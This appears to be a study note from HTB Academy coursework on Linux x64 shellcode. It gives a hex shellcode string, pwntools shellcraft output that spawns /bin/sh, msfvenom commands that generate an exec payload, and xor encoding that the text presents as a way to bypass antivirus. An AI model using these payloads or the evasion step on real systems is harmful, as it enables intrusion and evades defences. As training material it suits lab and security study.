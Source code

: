 Then load it

```bash
$ python3 loader.py '4831db66bb79215348bb422041636164656d5348bb48656c6c6f204854534889e64831c0b0014831ff40b7014831d2b2120f054831c0043c4030ff0f05'

Hello HTB Academy!
```

## Tools of the trade

#### Shellcraft.

From pwntools we can use shellcraft.

```bash
$ pwn shellcraft amd64.linux.sh
6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05

$ pwn shellcraft amd64.linux.sh -r
$ whoami
root
```

#### Msfvenome

We use msfvenom for shellcode.

```bash
$ msfvenom -l payloads | grep 'linux/x64'
linux/x64/exec                                      Execute an arbitrary command
...SNIP...

# Create a /bin/sh
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex'
```

### <mark style="color:yellow;">Shellcode Encoding</mark>

Encoding shellcode is used to bypass defender and antivirus. We can use msfvenom for encoding.

```bash
msfvenom -l encoders

Framework Encoders [--encoder <value>]
======================================
    Name                          Rank       Description
    ----                          ----       -----------
    cmd/brace                     low        Bash Brace Expansion Command Encoder
    cmd/echo                      good       Echo Command Encoder
```

We can use one like x64/xor. Using the -i COUNT flag we can specify amount of iterations.

```bash
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor'
```

{% embed url="https://shell-storm.org/shellcode/index.html" %}

{% embed url="https://www.exploit-db.com/shellcodes" %}
